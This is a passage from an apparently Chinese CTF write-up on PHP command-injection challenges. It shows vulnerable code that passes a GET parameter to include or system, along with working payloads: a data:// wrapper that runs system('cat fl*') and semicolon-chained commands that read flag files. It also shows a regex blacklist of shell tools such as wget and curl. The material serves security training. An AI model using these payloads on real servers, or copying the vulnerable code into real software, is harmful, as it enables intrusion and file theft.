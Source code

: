 ```php
}
```

过滤了flag，且include函数会将传入的c参数和.php拼接在一起

payloads：

?c=data://text/plain,<？php system('cat fl*');?>



### Web42：

```
if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  system($c." >/dev/null 2>&1"); 

}else{ 

  highlight_file(__FILE__); 

}
```

审计代码，发现system命令中，c参数和”>/dev/null 2>&1“拼接在了一起。



payloads：

?c=ls;

?c=cat flag.php;

右键查看源码得到flag

### Web54：

```php
if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){ 

​    system($c); 

  }

}else{ 

  highlight_file(__FILE__); 

}
```
